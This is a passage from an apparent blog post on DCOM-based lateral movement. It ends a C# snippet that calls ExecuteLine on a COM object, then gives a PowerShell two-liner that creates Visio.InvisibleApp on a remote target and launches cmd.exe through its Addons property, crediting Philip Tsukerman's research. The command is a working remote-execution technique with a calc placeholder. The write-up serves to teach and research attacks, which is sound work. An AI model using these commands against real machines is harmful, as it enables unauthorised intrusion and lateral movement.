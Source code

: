 ```cs
        doc.GetType().InvokeMember(@"ExecuteLine", BindingFlags.InvokeMethod, null, doc, new object[] { code });
    }
    catch (Exception e)
    {
        Console.WriteLine(" [x] {0}", e.Message);
    }
}
```

Visio offers another nice way to execute arbitrary code, via the the `Addon` property. If the reader had any chance read the original paper (by Philip Tsukerman), she might have been puzzled in seeing the following:

<img style="border: 5px solid #555;" src="imgs/blog/002LateralMovement/tsuker.png", alt="Screen from Tsukerman Research"/>

The image was clear mistaken, but the post is so accurate than reconstructing the chain was trivial:

```powershell
$visio = [activator]::CreateInstance([type]::GetTypeFromProgID("Visio.InvisibleApp", $target))
$visio.Addons.Add("C:\Windows\System32\cmd.exe").Run("/c calc")
```
